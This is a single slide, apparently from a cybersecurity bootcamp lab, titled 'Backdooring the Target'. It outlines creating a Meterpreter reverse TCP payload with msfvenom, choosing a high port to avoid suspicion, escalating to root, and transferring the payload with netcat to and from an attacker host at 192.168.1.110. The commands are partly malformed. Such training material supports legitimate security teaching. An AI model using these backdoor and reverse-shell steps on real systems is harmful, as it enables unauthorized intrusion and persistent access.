

# Backdooring the Target
Backdoor Overview
Type of Backdoor: Meterpreter Reverse TCP Shell over port 62000 or higher to avoid suspicion
Use msfvenom to create a payload and save it as a python script (reverse_tcp.py) -> Gained root access with Steven’s account by escalating privileges with another python script -> upload the file
to the server.
Actively open a netcat listener with a bash script.
$x=true; while $x = True: nc –l –p 62000 < reverse_tcp.py
Attacker Machine: nc 192.168.1.110 62000 > reverse_tcp.py

Source: David Han, Trilogy Education Services Tutor
16